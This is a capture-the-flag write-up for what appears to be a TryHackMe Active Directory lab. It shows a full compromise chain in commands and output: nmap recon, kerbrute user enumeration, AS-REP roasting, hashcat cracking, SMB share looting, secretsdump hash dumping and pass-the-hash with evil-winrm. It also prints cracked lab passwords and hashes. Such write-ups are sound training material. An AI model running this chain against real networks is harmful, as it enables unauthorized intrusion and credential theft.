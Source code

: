 # Recon
```
sudo nmap -sV -sC -O -p- -oN nmap.txt -Pn 10.10.186.109
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/AttacktiveDirectory/assets/1.png">

A lot of open ports and the target appears to be a domain controller. This will most likely give us a lot of enumeration abilities.
<br>
# Enumeration
We spot the domain controller: spookysec.local
Let's add it to the /etc/hosts file and run kerbrute to enumerate usernames.

> Kerbrute is a tool to quickly bruteforce and enumerate valid Active Directory accounts through Kerberos Pre-Authentication. https://github.com/ropnop/kerbrute
```
./kerbrute userenum --dc spookysec.local -d spookysec.local ~/tmp/users.txt
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/AttacktiveDirectory/assets/2.png">

We notice backup, administrator and svc-admin as interesting accounts.
<br>
# Initial foothold
We'll try to get hashes with GetNPUsers.py from Impacket.
```
GetNPUsers.py spookysec.local/svc-admin -request -no-pass -dc-ip 10.10.186.109
```
```
[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:d31db66d309676ff0e7c5ecd880e698c$ea9ff1c3cb9619410aad19503c0c4381008eff11d3ea6c09ab916b44b1eb43814c2f09eb0844c934391e8e033c565dff359fa2e0530aadffcbb4f433fe87e1f20be9fce5d7ea01b2d7ca7390d38214cb2e0d0ab56b6e0a5f7a5c73d45aeaf475b00ca34245478c9deec60050ace07d31b1899c134e755ed46dbc7201de4de174bfbd1fdaf6d8a67789f10e4af8a88652f07a94d180f1ddac56e8e419e437b7e18552bd59fec397ec41ff4376ff97b18ead4d54b9c32398b8a5a6595cb949035a41fbbb8fe68da5ca9c6d937af1fc06e63fef1d3372a57a4c9289244a79cfe10bd76af6191d11ba87fd3dc145117ff8220aaa
```

We got a Keberos 5. AS-REP hash. Let's try to crack it with hashcat:
```
hashcat -m 18200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

We got a pass:
```
spookysec.local/svc-admin:management2005
```

Let's list the shares with this account:
```
smbclient -L //10.10.186.109/ -U spookysec.local/svc-admin
```                                                  
Enter SPOOKYSEC.LOCAL\svc-admin's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 


Let's connect to the backup share and download all files:
```
smbclient //10.10.186.109/backup/ -U spookysec.local/svc-admin 
Enter SPOOKYSEC.LOCAL\svc-admin's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Apr  4 15:08:39 2020
  ..                                  D        0  Sat Apr  4 15:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 15:08:53 2020

                8247551 blocks of size 4096. 3601776 blocks available
smb: \> mget *
```

We got a base64 encoded string. After decoding it says:
```
backup@spookysec.local:backup2517860
```

Let's use this account to dump NTLM hashes with secretsdump.
```
secretsdump.py -dc-ip 10.10.186.109 spookysec.local/backup:backup2517860@10.10.186.109
```

We got a administrator hash:
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
```

Let's use it to connect with evil-winrm:
```
evil-winrm  -i 10.10.186.109 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc 
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/AttacktiveDirectory/assets/3.png">










